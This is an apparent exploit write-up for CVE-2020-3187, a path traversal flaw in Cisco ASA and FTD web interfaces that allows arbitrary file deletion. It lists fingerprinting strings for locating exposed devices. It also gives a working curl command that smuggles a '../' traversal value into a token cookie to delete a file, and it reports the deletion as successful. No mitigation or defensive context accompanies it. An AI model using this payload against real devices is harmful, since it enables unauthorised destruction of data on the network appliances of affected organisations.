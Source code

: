 # Cisco ASA device arbitrary file deletion vulnerability CVE-2020-3187

## Vulnerability Description

There is a path traversal vulnerability in the Web service interfaces in Cisco ASA Software and FTD Software, which originated from the program not performing correct input verification of HTTP URLs. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cisco ASA device</span>



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cisco-1.png)



<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cisco FTD device</span>



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cisco-2.png)

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">/+CSCOE+/</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cisco-ASA</span>

## Vulnerability reappears


</a-alert>
<br/>

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cisco-6.png)



For example, we delete an image https://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cisco-7.png)



Use curl to send requests



```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cisco-8.png)



Icons successfully deleted